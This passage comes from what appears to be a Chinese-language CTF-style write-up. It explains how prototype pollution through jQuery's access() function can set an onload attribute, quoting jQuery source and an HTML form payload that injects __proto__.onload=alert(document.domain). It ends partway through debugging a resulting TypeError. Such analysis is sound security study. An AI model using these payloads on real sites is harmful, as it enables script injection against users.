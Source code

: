 [access 的部分實作](https://github.com/jquery/jquery/blob/main/src/core/access.js#L12)：

``` js
export function access( elems, fn, key, value, chainable, emptyGet, raw ) {
    var i = 0,
        len = elems.length,
        bulk = key == null;

    // Sets many values
    if ( toType( key ) === "object" ) {
        chainable = true;
        for ( i in key ) {
            access( elems, fn, i, key[ i ], true, emptyGet, raw );
        }
    }
}
```

如果傳入的 key 是個 object，會用 in 來取出每一個 key 設定。由於 in 會取出原型鏈上的屬性，因此可以透過污染 `onload`，讓 jQuery 去設定 onload 屬性。

payload 如下：

``` html
<form id=search>
  <input name=__proto__.onload value=alert(document.domain)>
  <input name=q value=react-d3><
</form>
```

看起來沒什麼問題，但嘗試過後，會發現出現了錯誤：

```
Uncaught (in promise) TypeError: Cannot use 'in' operator to search for 'set' in alert(document.domain)
```

經過一陣 debug 之後，會發現這段錯誤是源自於設置 attr 時的這一段：

``` js
// Attribute hooks are determined by the lowercase version
// Grab necessary hook if one is defined
if ( nType !== 1 || !jQuery.isXMLDoc( elem ) ) {
    hooks = jQuery.attrHooks[ name.toLowerCase() ] ||
        ( jQuery.expr.match.bool.test( name ) ? boolHook : undefined );
}

if ( value !== undefined ) {
    if ( value === null ) {
        jQuery.removeAttr( elem, name );
        return;
    }

    if ( hooks && "set" in hooks &&
        ( ret = hooks.set( elem, value, name ) ) !== undefined ) {
        return ret;
    }

    elem.setAttribute( name, value + "" );
    return value;
}
```

